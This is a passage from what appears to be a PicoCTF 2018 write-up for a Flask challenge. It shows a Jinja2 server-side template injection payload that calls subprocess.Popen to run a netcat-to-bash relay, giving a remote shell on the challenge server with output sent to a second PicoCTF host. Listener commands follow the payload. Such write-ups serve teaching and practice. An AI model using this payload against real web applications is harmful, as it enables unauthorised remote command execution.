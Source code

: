 ![RCE_Test.png](./RCE_Test.png)

One way to do this (as shown) is to have the remote server execute a shell command that listens on an input port, pipes the input to bash, and pipes the output from bash to a `netcat` command to another server. I just need to send the output to an IP address and port that's not behind a NAT. PicoCTF provides me with access to a shell on their server, so I'll just use that.

So, now I want:

`{{''.__class__.mro()[1].__subclasses__()[206]('nc -lv 6032 | bash | nc 2018shell2.picoctf.com 6036', shell=True)}}`

which yields a flaskcard with value: `<subprocess.Popen object at 0x7efffc2cf198>`.

Then I listen on `2018shell2.picoctf.com` with `nc -lv 6036`, and from my own terminal just run `nc 2018shell.picoctf.com 6032`.

Here are the results:

![./got_flag.png](./got_flag.png)
